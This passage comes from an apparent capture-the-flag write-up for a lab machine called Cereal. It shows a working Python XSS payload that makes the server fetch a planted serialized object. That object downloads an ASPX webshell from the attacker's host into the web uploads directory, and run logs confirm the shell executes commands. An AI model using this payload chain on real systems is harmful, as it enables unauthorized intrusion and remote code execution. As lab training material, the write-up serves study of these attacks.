 The JSON payload is a single key, `json`, with a string of JSON as the value, just like in legit POSTs. It took me a while to figure out that for the `DownloadHelper` object to be created, it seems like the request only happens if I give a valid location to write. I found a directory during enumeration that I can place on disk at `C:\inetpub\source\uploads`, and that seems like a logical place that the webserver could write, so I hard-coded that into the script.

### XSS

With the serialized payload in the database, I’m going to use the XSS to have Cereal make a request to `/requests/[id]`. I can write a `<script>` tag with JavaScript in it that is executed. I’ll have it execute a `XMLHttpRequest` to fetch the malicious object. I’ll need to add the JWT token in as a header as well.

```

# Send XSS payload
xss_payload = {"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>var xhr = new XMLHttpRequest;xhr.open%28'GET', 'https://"+ target + "/requests/" + str(serial_id)+"', true%29;xhr.setRequestHeader%28'Authorization','Bearer "+token+"'%29;xhr.send%28null%29</script>%22%29)\", \"flavor\":\"pizza\", \"color\":\"#FFF\", \"description\":\"test\"}"}

resp = requests.post(f'https://{target}/requests', json=xss_payload, headers=headers, verify=False)
print(resp.text)

```

### Final Script

The [final script](/files/cereal-rce.py) runs, and making two requests to Cereal:

```

oxdf@parrot$ python3 rce.py cereal.htb http://10.10.14.15/cmdasp.aspx 0xdf.aspx
[*] Forging JWT token
[*] Sending DownloadHelper serialized object
[+] Object uploaded: {"message":"Great cereal request!","id":9}
[*] Sending XSS payload
[+] XSS payload sent: {"message":"Great cereal request!","id":10}

```

A few minutes later, there’s a request for the webshell:

```
10.10.10.217 - - [27/Apr/2021 17:56:17] "GET /cmdasp.aspx HTTP/1.1" 200 -

```

Checking that url, it’s there:

![image-20210427180233487](https://0xdfimages.gitlab.io/img/image-20210427180233487.png)

And it runs commands:

![image-20210427192054343](https://0xdfimages.gitlab.io/img/image-20210427192054343.png)
